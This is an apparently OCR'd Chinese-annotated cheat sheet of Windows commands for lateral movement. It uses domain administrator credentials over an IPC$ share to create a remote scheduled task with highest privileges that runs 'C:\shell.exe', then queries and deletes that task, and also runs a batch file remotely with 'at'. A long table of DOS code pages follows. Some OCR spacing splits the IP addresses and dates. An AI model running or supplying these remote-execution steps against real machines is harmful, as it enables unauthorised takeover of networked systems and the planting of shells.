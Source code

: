 ```
net use \\ 192 .168.1.101\admin$ "admin" /user:"AD\administrator" 建立IPC连接
net time \\ 192 .168.1.101 查看目标机器当前时间
schtasks /create /? 查看schtasks使用帮助
chcp 437 当前机器是中文系统需要先修改下cmd字符集,以防schtasks远程创建计划任务时会报错
chcp 52936 用完以后再把字符集改回来,如果是英文系统就不会有这种问题
schtasks /create /s 192 .168.1.101 /u "AD\administrator" /p "admin" /TN "shellexec" /SC
DAILY /ST 11 :18 /F /RL HIGHEST /SD 2017 /11/13 /ED 2017 /11/16 /TR "C:\shell.exe"
schtasks /query /s 192 .168.1.101 /u "AD\administrator" /p "admin" | findstr "shell"
schtasks /delete /s 192 .168.1.101 /u "AD\administrator" /p "admin" /TN "shellexec"
at \\ 192 .168.1.101 14 :05 cmd /c "c:\windows\temp\test.bat" 03 系统使用，需先IPC连接
--------------------给出DOS字符集代号--------------------------
代码页 国家(地区)或语言
437          英文（美国）
708          阿拉伯文(ASMO 708 )
720          阿拉伯文(DOS)
850          多语言(拉丁文 I)
852 		中欧(DOS) - 斯拉夫语(拉丁文 II)
857 		土耳其语
860 		葡萄牙语
861 		冰岛语
862 		希伯来文(DOS)
863 		加拿大 - 法语
865 		日耳曼语
866 		俄语 - 西里尔文(DOS)
869 		现代希腊语
874          泰文(Windows)
932          日文(Shift-JIS)
936          中国 - 简体中文(GB2312)
949          韩文
950          繁体中文(Big5)
1200 Unicode       
1201 Unicode (Big-Endian)
1250         中欧(Windows)
1251         西里尔文(Windows)
1252         西欧(Windows)
1253         希腊文(Windows)
1254         土耳其文(Windows)
1255         希伯来文(Windows)
1256         阿拉伯文(Windows)
1257         波罗的海文(Windows)
1258         越南文(Windows)
20866        西里尔文(KOI8-R)
21866        西里尔文(KOI8-U)
28592        中欧(ISO)
28593        拉丁文 3 (ISO)
28594        波罗的海文(ISO)
28595        西里尔文(ISO)
28596        阿拉伯文(ISO)
28597        希腊文(ISO)
28598        希伯来文(ISO-Visual)
38598        希伯来文(ISO-Logical)
50000        用户定义的
50001        自动选择
50220        日文(JIS)
50221        日文(JIS-允许一个字节的片假名)
50222        日文(JIS-允许一个字节的片假名 - SO/SI)
50225        韩文(ISO)
50932        日文(自动选择)
50949        韩文(自动选择)
51932        日文(EUC)
51949        韩文(EUC)
52936        简体中文(HZ)
65000 Unicode (UTF-7)
```